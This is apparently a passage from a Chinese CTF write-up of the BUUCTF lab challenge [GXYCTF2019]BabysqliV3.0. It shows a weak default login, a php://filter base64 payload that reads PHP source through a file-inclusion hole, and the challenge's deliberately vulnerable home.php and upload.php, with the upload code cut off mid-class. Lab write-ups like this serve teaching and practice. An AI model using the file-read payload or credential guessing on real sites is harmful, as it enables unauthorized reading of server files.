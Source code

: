 拿到flag

## [GXYCTF2019]BabysqliV3.0

弱密码

`admin  password`

```
http://52bb8ad5-d984-46b0-ac0c-662bc08246bf.node4.buuoj.cn:81/home.php?file=upload
```

盲猜文件读取

```
?file=php://filter/convert.base64-encode/resource=upload
```

**home.php**

```php
<?php
session_start();
echo "<meta http-equiv=\"Content-Type\" content=\"text/html; charset=utf-8\" /> <title>Home</title>";
error_reporting(0);
if(isset($_SESSION['user'])){
	if(isset($_GET['file'])){
		if(preg_match("/.?f.?l.?a.?g.?/i", $_GET['file'])){
			die("hacker!");
		}
		else{
			if(preg_match("/home$/i", $_GET['file']) or preg_match("/upload$/i", $_GET['file'])){
				$file = $_GET['file'].".php";
			}
			else{
				$file = $_GET['file'].".fxxkyou!";
			}
			echo "当前引用的是 ".$file;
			require $file;
		}
		
	}
	else{
		die("no permission!");
	}
}
?>
```

**upload.php**

```php
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" /> 

<form action="" method="post" enctype="multipart/form-data">
	上传文件
	<input type="file" name="file" />
	<input type="submit" name="submit" value="上传" />
</form>

<?php
error_reporting(0);
class Uploader{
	public $Filename;
	public $cmd;
	public $token;
	
```